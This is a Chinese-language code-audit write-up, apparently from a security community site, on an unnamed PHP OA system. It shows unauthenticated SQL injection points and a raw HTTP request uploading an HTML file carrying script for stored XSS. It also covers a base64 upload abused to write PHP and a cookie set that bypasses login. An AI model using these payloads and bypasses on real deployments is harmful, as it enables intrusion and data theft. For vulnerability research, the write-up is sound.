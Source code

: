 

# 记录一次某 OA 代码审计 - 先知社区

记录一次某 OA 代码审计

- - -

## **未授权访问漏洞 + 前台 SQL 注入漏洞**

发现数个文件存在未授权访问漏洞。究其原因没有包含鉴权文件 checklogin.php  
[![](assets/1708919668-7ac3b6b7a4caa4adbceaf4cb964dbe4c.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240219094715-ced4f8a4-cec8-1.jpg)  
[![](assets/1708919668-bb95899733ac80632bd47950797a70cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219094728-d6b9e5b6-cec8-1.png)  
同时发现这个文件几个参数在拼接时没有进行过滤存在很明显的 SQL 注入漏洞。

```plain
if($suserxm!=''){
$sql=$sql." and userxm like '%$suserxm%'";
}
if($sjiabie!=''){
$sql=$sql." and jiabie like '%$sjiabie%'";
}
if($smudidi!=''){
$sql=$sql." and mudidi like '%$smudidi%'";
}
if($sniandu!=''){
$sql=$sql." and niandu like '%$sniandu%'";
}
$sql=$sql."  ORDER BY id asc LIMIT ".($pindex - 1) * $psize.','.$psize;
   $list =$db->fetchall($sql);
```

[![](assets/1708919668-4df3e9ba1bed056ddbe0e70a245662d3.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240219094920-1947b8ea-cec9-1.jpg)  
[![](assets/1708919668-b6938167b2554cf208db226712299bc6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219094935-2275a508-cec9-1.png)  
相似的这个目录下很多类似文件但是其他的都有做鉴权，所以可以说是后台注入，这里就不提了。  
[![](assets/1708919668-e7d455d5c29486f734ff0216e6525058.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219094952-2ca9e908-cec9-1.png)  
同时 juese.php 也存在类似问题

```plain
$sql="SELECT *  FROM ".$db->tablename('juese') ." WHERE id>0";
if($key!=''){
$sql=$sql." and juese like '%$key%'";
}
$sql=$sql."  ORDER BY id asc LIMIT ".($pindex - 1) * $psize.','.$psize;
   $list =$db->fetchall($sql);
```

[![](assets/1708919668-f7f4de2e19b5f46284951001de008660.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219095022-3e96904e-cec9-1.png)  
[![](assets/1708919668-9bdcf51e63b8e2567efc6bf148487a49.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219095030-43090b5c-cec9-1.png)

```plain
switch ($_GET['action']) {
   case 'zidian':
    $zidian=$_GET['fenlei'];//获取 id
      $sql="SELECT *  FROM ".$db->tablename('vxiangmu') ." WHERE zidian='$zidian'";
         $list =$db->fetchall($sql);
```

[![](assets/1708919668-4f5e50a049919e9549826ed74b651b1e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219095053-50cd5c66-cec9-1.png)

## **前台文件上传漏洞造成存储型 XSS**

寻思还有个未鉴权文件 upload.php 和 upfile.php 文件不能浪费啊，可好像都白名单写死了。但是在 upload.php 发现了端倪，这可以传 html。  
[![](assets/1708919668-3552e42ef120718daa559576c6d672b6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219095126-645232d4-cec9-1.png)  
这里要手动传参 dir=file，要不然会默认当成 image 类型处理  
[![](assets/1708919668-ad5a35182b0073926934930ea5e35c10.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219095139-6c409fc6-cec9-1.png)  
[![](assets/1708919668-30a823c6b72c7e2b9dea7d76ec5e87b1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219095148-7172440e-cec9-1.png)

```plain
POST /upload.php?dir=file HTTP/1.1
Host: 192.168.19.25:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=eb570d137174d94106f5bc0a
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywlAMbJmcCIjUNS80
Content-Length: 178

------WebKitFormBoundarywlAMbJmcCIjUNS80
Content-Disposition: form-data; name="file";filename="1.html"

<script>alert(1)</script>
------WebKitFormBoundarywlAMbJmcCIjUNS80--
```

## **前台文件上传漏洞**

这个未授权的文件很有意思，本意应该是想使用 base64 编码功能去写入图片，但是稍加修改即可传入恶意文件。  
[![](assets/1708919668-94f9e5b901cb46b16a82e8ead0d9721e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219095243-927fa51a-cec9-1.png)  
传入的$img 前面必须要是以 data:image/文件格式;base64，开头 然后后面跟上 base64 编码即可。然后$result\[2\]就是正则表达式中第二个 () 的部分，即为\\w+ $result\[1\]就是最外面的括号即正则匹配部分 data:image/php;base64, 所以直接写入就 OK 了，提一嘴本来想写入的是<?php phpinfo();?> 但是不知道为啥写入后自动去掉了> 所以索性直接传<?php phpinfo();

```plain
<?php

$img = $_POST['imgbase64'];
if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $img, $result)) {
    $type = ".".$result[2];
    $path = "upload/" . date("Y-m-d") . "-" . uniqid() . $type;
}
$img =  base64_decode(str_replace($result[1], '', $img));
@file_put_contents($path, $img);
exit('{"src":"'.$path.'"}');
```

[![](assets/1708919668-a6c70be59f742dfc5f779713b4a8611b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219095318-a76319e4-cec9-1.png)  
[![](assets/1708919668-071b3fa72c775718c9f60ed59d89b926.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219095325-ab4cab4c-cec9-1.png)

## **逻辑缺陷登陆绕过漏洞**

前面的 SQL 注入都是未包含鉴权文件 checklogin.php 引起的，那我们可以去观察下这个文件。发现鉴权写的有很多问题，只要保证以下参数值不为空且存在即可绕过。  
Cookie: id=1; loginname=1; jueseid=1; danweiid=1; quanxian=1;

```plain
function islogin(){
   if(isset($_COOKIE['id'])&&isset($_COOKIE['loginname'])&&isset($_COOKIE['jueseid'])&&isset($_COOKIE['danweiid'])&&isset($_COOKIE['quanxian'])){
      if($_COOKIE['id']!=''&&$_COOKIE['loginname']!=''&&$_COOKIE['jueseid']!=''&&$_COOKIE['danweiid']!=''&&$_COOKIE['quanxian']!=''){
          return true;
      }
```

[![](assets/1708919668-ad192876ecc8aa58ba6244a92e15f2db.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219095417-caabb2d0-cec9-1.png)  
[![](assets/1708919668-1f5172f1b62b0fa6379de0485e39311d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219095423-ce40e37a-cec9-1.png)
